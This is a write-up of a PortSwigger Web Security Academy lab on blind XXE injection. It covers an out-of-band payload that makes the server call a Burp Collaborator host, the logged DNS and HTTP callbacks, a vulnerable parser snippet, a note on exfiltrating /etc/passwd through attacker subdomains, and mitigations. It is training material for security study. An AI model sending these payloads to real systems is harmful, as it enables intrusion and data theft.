

# Lab 03: Blind XXE with Out-of-Band Interaction

> **Topic**: XXE (XML External Entity) Injection
> **Lab Number**: 03
> **Platform**: PortSwigger Web Security Academy

## Category
XXE Injection — Blind XXE via Out-of-Band DNS/HTTP Callback to Burp Collaborator

## Vulnerability Summary
The stock-check endpoint parses XML with external entity resolution enabled, but unlike the previous labs, nothing from the parsed XML is reflected in the HTTP response. The vulnerability is therefore blind — there is no in-band channel to read entity values. By pointing a `SYSTEM` entity at a Burp Collaborator URL, the server makes an outbound DNS lookup and HTTP request to the attacker-controlled domain, confirming the XXE is exploitable even without any visible output. Two DNS lookups and one HTTP interaction were received, proving server-side entity resolution.

## Attack Methodology

### Step 1: Generate a Collaborator Payload
Opened Burp Collaborator (`Collaborator` tab → `Copy to clipboard`) to get a unique subdomain:

```
ra5h9uvb0vkq26gzzbos7p8ttkzbn1bq.oastify.com
```

### Step 2: Inject the Out-of-Band XXE Payload
Intercepted the stock-check POST request and replaced the XML body with:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://ra5h9uvb0vkq26gzzbos7p8ttkzbn1bq.oastify.com/" > ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

The response gave no useful output — confirming this is blind XXE. No entity value is reflected.

### Step 3: Confirm Out-of-Band Interaction
Clicked **Poll now** in Burp Collaborator. Three interactions were received:

| # | Time (UTC) | Type | Source IP |
|---|---|---|---|
| 1 | 2026-05-15 08:36:53.993 | DNS | 34.245.82.42 |
| 2 | 2026-05-15 08:36:53.994 | DNS | 99.80.34.113 |
| 3 | 2026-05-15 08:36:54.017 | HTTP | 34.253.173.2 |

The DNS query description: *"The Collaborator server received a DNS lookup of type A for the domain name `ra5h9uvb0vkq26gzzbos7p8ttkzbn1bq.oastify.com`. The lookup was received from IP address 34.245.82.42:4198 at 2026-05-15 08:36:53.993 UTC."*

The server resolved the external entity, performed DNS resolution, and made an outbound HTTP request — all triggered by the injected DOCTYPE. Lab solved.




## Technical Root Cause

The XML parser resolves `SYSTEM` entities regardless of whether the application reads or reflects the resolved value. The DNS lookup happens at parse time as part of URI resolution — before the application logic even runs. This means blind XXE is detectable and exploitable even when the application returns a generic error or no output at all.

```python
# Vulnerable — entity resolved at parse time, no reflection needed
parser = etree.XMLParser()          # external entities + network access enabled
tree = etree.fromstring(xml_data, parser)
# DNS/HTTP to attacker domain already happened above
```

### Why Two DNS Lookups
DNS resolvers often query multiple upstream servers in parallel or retry. Both lookups originate from different AWS infrastructure IPs (`34.245.82.42`, `99.80.34.113`) — consistent with the application running on EC2 behind a load balancer or using a split-horizon resolver.

## Impact
- **Confirmed Exploitable Attack Surface**: Out-of-band confirmation proves the parser resolves external entities. This is the prerequisite for all advanced blind XXE techniques — data exfiltration via DNS, parameter entity injection, and error-based extraction.
- **Network Topology Disclosure**: The source IPs of the DNS/HTTP callbacks reveal the server's egress IP addresses and cloud region.
- **Pivot to Data Exfiltration**: With OOB confirmed, the next step is blind data exfiltration — encoding file contents into a subdomain label (e.g., `file-contents.attacker.com`) to exfiltrate `/etc/passwd` or secrets without any in-band response.

## Proof of Concept

```
POST /product/stock HTTP/2
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://<collaborator-id>.oastify.com/" > ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Check Burp Collaborator for DNS and HTTP interactions.

## Key Takeaways
1. **Blind XXE Is Still Dangerous**: No reflection in the response does not mean the vulnerability is unexploitable. OOB interaction confirms the parser resolves entities, which is sufficient to exfiltrate data via DNS subdomains or HTTP parameters in follow-up payloads.
2. **DNS Is the Most Reliable OOB Channel**: Even when outbound HTTP is blocked by egress firewall rules, DNS often isn't. A DNS-only callback (no HTTP) still confirms XXE and can be used for data exfiltration via subdomain encoding.
3. **Detection Without Reflection**: Blind XXE requires an external interaction server (Burp Collaborator, interactsh, canarytokens). Without one, the vulnerability is invisible to manual testing — automated scanners that don't use OOB infrastructure will miss it entirely.
4. **Same Root Cause, Different Detection Method**: The fix is identical to reflected XXE — disable external entity processing at the parser level. The blind variant just requires a different detection approach.

## Mitigation

```python
# Disable all external entity and DTD processing
parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
tree = etree.fromstring(xml_data, parser)
```

For Java:
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

## References
- [PortSwigger XXE Lab — Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
- [PortSwigger XXE — Blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Collaborator)
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
